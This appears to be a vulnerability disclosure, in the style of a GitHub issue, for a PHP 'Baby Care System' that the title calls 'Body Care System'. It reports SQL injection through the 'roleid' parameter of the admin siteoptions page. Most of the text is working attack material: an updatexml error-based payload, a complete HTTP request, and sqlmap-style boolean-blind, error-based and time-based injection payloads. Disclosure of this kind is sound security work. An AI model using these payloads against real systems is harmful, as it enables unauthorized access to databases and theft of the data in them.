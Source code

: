 ## Body Care System has SQL injection vulnerability

vendor: https://www.sourcecodester.com/php/14622/baby-care-system-phpmysqli-full-source-code.html

Vulnerability file: /BabyCare/admin/siteoptions.php&action=display&value=1&roleid=

![image](https://user-images.githubusercontent.com/54017627/161355230-d8f95e3c-6a12-41d5-bbef-d64febe96ca2.png)

Vulnerability location: /BabyCare/admin.php?id=siteoptions&action=display&value=1&roleid=1 //postid is Injection point

[+]Payload: /BabyCare/admin.php?id=siteoptions&action=display&value=1&roleid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ //roleid is Injection point

```sql
GET /BabyCare/admin.php?id=siteoptions&action=display&value=1&roleid=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),2)--+ HTTP/1.1
Host: 192.168.1.19
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.84 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=h48mjnelp4g0935821l2k3g5ne
Connection: close
```
![image](https://user-images.githubusercontent.com/54017627/161355101-54cbb36c-a42a-4a09-ab3c-2779fa673b4c.png)

```sql
---
Parameter: roleid (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: id=siteoptions&action=display&value=1&roleid=1' RLIKE (SELECT (CASE WHEN (1142=1142) THEN 1 ELSE 0x28 END))-- dTza

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: id=siteoptions&action=display&value=1&roleid=1' AND (SELECT 8760 FROM(SELECT COUNT(*),CONCAT(0x71706a6a71,(SELECT (ELT(8760=8760,1))),0x7170717a71,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- OSOo

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=siteoptions&action=display&value=1&roleid=1' AND (SELECT 6807 FROM (SELECT(SLEEP(5)))IKcE)-- PCqd
---
```
![image](https://user-images.githubusercontent.com/54017627/161355203-1c48d2c7-6fda-4f08-a230-6d19511342ab.png)
